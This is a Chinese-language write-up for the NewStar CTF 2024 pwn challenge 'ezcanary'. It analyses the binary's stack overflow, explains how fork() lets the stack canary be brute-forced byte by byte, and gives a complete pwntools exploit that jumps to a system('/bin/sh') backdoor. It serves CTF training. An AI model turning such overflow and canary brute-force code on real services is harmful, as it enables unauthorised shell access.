 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# ezcanary

文件到手先 checksec 一下，看一下是 64 位程序，除了 PIE 其他保护全开

![checksec](/assets/images/wp/2024/week3/ezcanary_1.png)

给了后门地址，因为没有开PIE所以可以直接利用

```asm
.text:0000000000401236 ; __unwind {
.text:0000000000401236                 endbr64
.text:000000000040123A                 push    rbp
.text:000000000040123B                 mov     rbp, rsp
.text:000000000040123E                 sub     rsp, 10h
.text:0000000000401242                 mov     rax, fs:28h
.text:000000000040124B                 mov     [rbp+var_8], rax
.text:000000000040124F                 xor     eax, eax
.text:0000000000401251                 lea     rdi, command    ; "/bin/sh"
.text:0000000000401258                 call    _system
```

再看 `main` 函数

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, 0x50uLL);
  do
  {
    if ( !fork() )
    {
      puts(&byte_402031);
      puts(&byte_402050);
      puts(&byte_40208B);
      read(0, s, 0x100uLL);
      return 0;
    }
    wait(0LL);
    puts(&::s);
    read(0, s, 0x100uLL);
  }
  while ( strcmp(s, "cat flag\n") );
  puts("flag is one_by_one_bruteforce");
  read(0, s, 0x100uLL);
  return 0;
}
```

很明显的有三个 `read` 都可以栈溢出，程序是 do while 的循环，当第二次输入为 `cat flag\n` 时结束循环并读取第三次输入

但是由于程序开启了 Canary 保护，所以并不能直接 ret2backdoor，而需要先想办法绕过 Canary 才能成功修改返回地址

不管是 `fork()` 函数还是最后 `puts` 的 `one_by_one_bruteforce` 都在提示本题可用逐字节爆破的方式获得 Canary

:::tip

`fork()` 函数具有以下两个特点：

1. 由于子进程和父进程的栈结构是完全相同的，因此保存在子进程栈上的随机数与保存在父进程栈上的随机数完全相同。换句话说，所有子进程和父进程共享同一个 Canary
2. 子进程的崩溃不会导致父进程崩溃

这两个特点意味着当程序调用 `fork()` 函数创建了足够多的子进程时，我们可以不断访问子进程，直到找到一个不会使子进程崩溃的随机数，这个随机数也就是真正的 Canary

:::

64 位要爆破 7 个字节，运气不好的话要多等会

```python
#_*_ coding:utf-8 _*_
from pwn import *
elf = ELF("./ezcanary")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])
p = remote('127.0.0.1',8071)
def aaa() :
  global can
  for i in range(256):
    payload1 = (0x60-8) * b'a' + can + p8(i)
    p.sendafter('你觉得呢？\n',payload1)
    info = p.recvuntil('\n')
    if b"*** stack smashing detected ***" in info :
        p.send('n\n')
        continue
    else :
        can += p8(i)
        break

def bbb():
  global can
  can = b'\x00'
  for i in range(7):
    aaa()
    if i != 6 :
      p.send('a\n')
    else :
      p.sendline('cat flag')


bbb()
canary = u64(can)
print(hex(canary))
getshell = 0x401251
payload2 = b"a" * (0x60-8) + p64(canary) + p64(0) + p64(getshell)
p.sendafter("bruteforce\n", payload2)
p.interactive()
```
